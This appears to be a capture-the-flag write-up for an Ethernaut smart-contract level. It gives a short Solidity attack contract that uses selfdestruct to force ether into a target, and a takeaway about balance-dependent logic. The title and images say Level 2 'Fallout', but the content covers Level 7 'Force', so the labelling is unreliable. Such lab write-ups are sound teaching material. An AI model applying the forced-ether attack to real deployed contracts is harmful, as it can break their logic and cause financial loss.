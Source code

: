<div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Level 7 - Force](#level-7---force)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

### Level 7 - Force

It requires the use of `selfdestruct` - which is one of the ways to forcibly send ether to a contract

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and call's selfDestruct on itself - forwarding any ether in it to the vulnerable contract

```
contract ForceAttack {

    function attack(address payable _vulnerableContract) public payable {
        require(msg.value > 0);
        selfdestruct(_vulnerableContract);
    }
}
```

## Takeaway

selfdestuct's existence and that contracts should be vvary of using logic tied to their balance

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
